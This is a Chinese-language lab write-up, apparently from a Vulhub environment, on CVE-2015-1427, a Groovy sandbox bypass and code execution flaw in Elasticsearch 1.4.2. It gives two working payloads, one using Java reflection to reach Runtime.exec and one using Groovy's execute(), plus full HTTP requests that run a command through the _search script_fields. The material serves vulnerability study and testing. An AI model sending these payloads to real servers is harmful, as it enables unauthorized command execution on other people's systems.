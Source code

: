 （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞
==============================================================

一、漏洞简介
------------

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过；
2.是一个Goovy代码执行漏洞。

二、漏洞影响
------------

elasticsearch版本：v1.4.2

三、复现过程
------------

### Groovy语言"沙盒"

ElasticSearch支持使用"在沙盒中的"Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射

2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

    java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

Goovy直接执行命令法：

    def command='id';def res=command.execute().text;res

### 漏洞复现

编译及运行测试环境

    docker-compose build
    docker-compose up -d

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "test"
    }

然后发送包含payload的数据包，执行任意命令：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}

![](./resource/(CVE-2015-1427)ElasticSearchGroovy沙盒绕过&&代码执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-1427/
